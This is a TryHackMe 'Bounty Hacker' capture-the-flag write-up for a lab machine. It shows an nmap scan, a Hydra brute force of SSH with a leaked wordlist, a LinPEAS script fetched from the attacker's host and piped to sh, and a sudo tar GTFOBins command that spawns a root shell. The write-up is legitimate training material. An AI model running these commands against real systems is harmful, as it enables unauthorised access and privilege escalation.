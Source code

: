 ## TryHackMe - Bounty Hacker
> Completed 10th January  2023.

A Cowboy Bebop themed CTF

> Edit: N/A

---
### Environment
#### Operating System
- Latest kali-VM rolling update

#### Tools
- Nmap
- CrossFTP
- FileZilla
- Hydra
- Linpeas.sh ([source](https://github.com/carlospolop/PEASS-ng))

---
### Methodology
#### Objectives/Flags
1. Who wrote the task list? 
2. What service can you bruteforce with the text file found?
3. What is the user's password? 
4. User.txt
5. Root.txt
---
#### Reconnaissance
To start this box off, I ran a standard nmap scan against the target IP.
```bash
└─$ nmap -T4 -sV -p- 10.10.122.0
  PORT   STATE SERVICE VERSION
  21/tcp open  ftp     vsftpd 3.0.3
  22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
  80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
  Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

From here I attempted to peek into the FTP only to be met with the realisation that I have little experience working that protocol.
```bash
ftp <TargetIP>
  530 this FTP server is anonymous only
```
After realising that I need to use `anonymous` as the username, I spend a while trying to figure out how to get a directory to print out.

After a bunch of cheat sheets and headache, I opted to try and find an application to install that could make this a very easy process. I started by installing `CrossFTP` because of it's simple GUI elements.
```bash
sudo chmod +x ./crossftp_deb_package.deb
sudo dpkg -i ./crossftp_deb_package.deb
crossftp
```
I connected to the target IP which revealed two text files located in the directory. The first being `locks.txt` and the second, `task.txt`. Things started getting progressively annoying here as the application wouldn't download the files from the FTP service because of what I assume was connection dropouts? It annoyed me enough to resort to try another application which was `Filezilla`.
```bash
sudo apt install filezilla
filezilla
```
The application was a bit more cluttered in its GUI but had the same functionality. Unfortunately, I ran into the same issue where the files were refusing the download and the server connection was dropping out. After several minutes of waiting and attempting I got the files moved over onto my local machine. I don't know what really caused or resolved this.

```bash
cat locks.txt
  rEddrAGON
  ReDdr4g0nSynd!cat3
  Dr@gOn$yn9icat3
  R3DDr46ONSYndIC@Te
  ReddRA60N
  R3dDrag0nSynd1c4te
  dRa6oN5YNDiCATE
  ReDDR4g0n5ynDIc4te
  R3Dr4gOn2044
  RedDr4gonSynd1cat3
  R3dDRaG0Nsynd1c@T3
  Synd1c4teDr@g0n
  reddRAg0N
  REddRaG0N5yNdIc47e
  Dra6oN$yndIC@t3
  4L1mi6H71StHeB357
  rEDdragOn$ynd1c473
  DrAgoN5ynD1cATE
  ReDdrag0n$ynd1cate
  Dr@gOn$yND1C4Te
  RedDr@gonSyn9ic47e
  REd$yNdIc47e
  dr@goN5YNd1c@73
  rEDdrAGOnSyNDiCat3
  r3ddr@g0N
  ReDSynd1ca7e
```

```bash
cat task.txt
  1.) Protect Vicious.
  2.) Plan for Red Eye pickup on the moon.
  
  -lin
```

By the contents of `locks.txt` we can infer that this is a wordlist of potential passwords. `task.txt` appears to be some themed objectives however we see can identify names of two characters that could be used with the wordlist. The first being Vicious and the second being Lin who wrote the list.

#### Weaponization 
N/A

#### Delivery
N/A

#### Exploitation
I break out `Hydra` to brute force the SSH service of the target.
```bash
hydra -l lin -P /home/kali/kali-tools/TryHackMe/BountyHacker/locks.txt 10.10.122.0 ssh
  [22][ssh] host: 10.10.122.0   login: lin   password: RedDr4gonSynd1cat3  
```
With the password found we could now punch through and execute code on the target.
```bash
ssh <TargetIP> -l lin
whoami
  lin
id
  uid=1001(lin) gid=1001(lin) groups=1001(lin)
```

#### Installation 
N/A

#### Command & Control
N/A

#### Actions on Objective
Right off the bat we can find the `user.txt` in the user `lin`'s home directory
```bash
cat user.txt
  THM{***}
```
From here I could assume that `root.txt`was going to be in the /root/ directory however to be sure of this I spent some time searching through other common directories which included searching for clues to escalate my privilege up.

Directionless I hesitantly brought in the help of `LinPeas`. On my local machine I started up a python3 based HTTP server.
```bash
python3 -m http.server 4443 --directory <sharedfile>
```
On the target machine I requested the Linpeas file.
```bash
wget http://<LocalIP>/linpeas.sh | sh
```
The script got to work, and I analysed the output data. What stuck out most was the following CVE check.
```bash
╔══════════╣ CVEs Check
Vulnerable to CVE-2021-4034 
```
In the past I had relied too much on Linpeas finding a vulnerability like this instead of practicing my own skills. So instead of going for this exploit I spend more time looking for escalation techniques. Referencing a past box I had completed `Kenobi` I investigated obtaining privileges using a misconfiguration through either PATH variables or binaries. Eventually I found that I could print out a list of the binaries that the user had access to using sudo.
```bash
sudo -l
  [sudo] password for lin: 
  Matching Defaults entries for lin on bountyhacker:
  env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

  User lin may run the following commands on bountyhacker:
    (root) /bin/tar
```

After discovering `tar` as a possible misconfiguration, I used [GTFOBins](https://gtfobins.github.io/gtfobins/tar/) to look investigate commands/techniques could be used to exploit this.
```
Sudo
If the binary is allowed to run as superuser by sudo, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.
```
```bash
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```
Once the command was run the session was instantly escalated to a root user.
```bash
# id
  uid=0(root) gid=0(root) groups=0(root)
```
I could now grab the remaining flag in the directory.
```bash
cat root.txt
  THM{***}
```

---
### After-action
#### What I've learned

It's more rewarding to look for the challenging route. Linpeas won't always be available so the real skill is finding the escapes yourself and once you find it you can refer to that technique later.

#### What I would've done differently

There's not much I would do differently other than not bring in Linpeas to ensure a smaller footprint was used. In a perfect world I'd also take the time to learn and understand the issues I had with accessing FTP using a console.